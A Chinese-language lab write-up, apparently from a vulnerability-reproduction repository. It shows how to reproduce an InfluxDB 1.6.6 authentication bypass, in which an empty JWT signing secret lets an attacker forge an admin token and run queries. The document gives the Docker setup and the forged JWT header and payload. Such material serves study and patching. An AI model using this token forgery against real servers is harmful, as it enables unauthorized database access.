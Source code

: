 # InfluxDB 未授权访问漏洞

## 漏洞描述

influxdb是一款著名的时序数据库，其使用jwt作为鉴权方式。在用户开启了认证，但未设置参数`shared-secret`的情况下，jwt的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。

JWT，全称是JSON Web Token，是一种易于使用、无状态的鉴权方式。简单来说，就是Server端把JSON数据经过加密做成token，以授权给Client端。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 环境搭建

执行如下命令启动influxdb 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![image-20220224131904529](images/202202241319614.png)

## 漏洞复现

借助https://jwt.io/来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1745680213
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳，`secret`置空。

最终生成的token：

![image-20220224132837081](images/202202241328222.png)

发送带有这个jwt token的数据包，注意Content-Type设置为`application/x-www-form-urlencoded`。

可见SQL语句执行成功：

![image-20220224133310332](images/202202241333480.png)
